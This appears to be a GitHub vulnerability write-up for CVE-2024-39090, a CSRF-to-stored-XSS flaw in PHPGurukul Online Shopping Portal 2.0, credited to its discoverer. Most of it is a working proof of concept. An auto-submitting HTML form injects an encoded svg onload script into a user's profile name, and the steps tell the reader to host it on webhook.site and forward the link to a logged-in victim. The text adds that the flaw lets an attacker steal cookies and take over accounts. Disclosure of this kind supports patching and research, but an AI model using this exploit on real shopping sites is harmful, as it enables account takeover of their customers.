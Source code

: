 ## CVE-2024-39090: PHPGurukul Online Shopping Portal Project 2.0 - CSRF to Stored XSS
![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

**Exploit Title:** `PHPGurukul Online Shopping Portal Project 2.0 - CSRF to Stored XSS`  

**Exploit Author:** `Arijit Dirghangi`

**Vendor Homepage:** `https://phpgurukul.com/`

**Software Link:** `https://phpgurukul.com/shopping-portal-free-download/`

**Version:** `2.0`

**Vulnerable endpoint:** `https://localhost/shopping/my-account.php `

**Tested on :** `Windows 11, XAMPP`

### Proof-of-Concept
![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

**To Reproduce:**

***1)*** Visit [https://webhook.site/](https://webhook.site/), click on 'edit,' and paste the below code into 'content,' then click on Save.

```html
<html>
  <body>
    <form action="https://localhost/shopping/my-account.php" method="POST">
      <input type="hidden" name="name" value="XSS&quot;&gt;LOL&lt;svg&#47;onload&#61;alert&#40;1&#41;&gt;&lt;" />
      <input type="hidden" name="contactno" value="1234567890" />
      <input type="hidden" name="update" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

***2)*** A unique URL will be generated. Forward this URL to the end user. If the user is authenticated, the profile name will be updated with the malicious payload, and the XSS will be stored successfully.

***3)*** Using this Vulnerability, attacker can steal cookie user which cause to account takeover.

![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

***Example URL:*** [https://webhook.site/93cd6aa7-7dcb-4bbb-a71b-30a47a81c46b](https://webhook.site/93cd6aa7-7dcb-4bbb-a71b-30a47a81c46b)

***Affected Endpoint:*** [https://localhost/shopping/my-account.php](https://localhost/shopping/my-account.php)

***PoC:*** https://drive.google.com/file/d/1KQbyImLDEY7BY9Vsa32OyeZafkLZ-jTe/view
